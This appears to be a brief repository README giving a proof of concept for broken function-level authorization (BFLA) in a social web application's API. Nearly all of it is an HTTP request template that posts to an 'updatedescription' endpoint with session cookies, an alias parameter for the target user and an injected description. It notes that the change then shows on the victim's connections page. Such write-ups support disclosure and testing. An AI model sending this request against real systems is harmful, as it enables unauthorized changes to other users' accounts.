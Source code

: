 # bfla-1

PoC

Send a POST to endpoint `/social/api/rest/social/social/updatedescription`

```
POST /social/api/rest/social/social/updatedescription?space=&alias=USER_HERE&description=BFLA_HERE HTTP/2
Host: host.com
Cookie: JSESSIONID=session; JSESSIONIDSSO=sessionSSO
```

After send the request, we can see the change at `/connections/ID_USER/` endpoint.

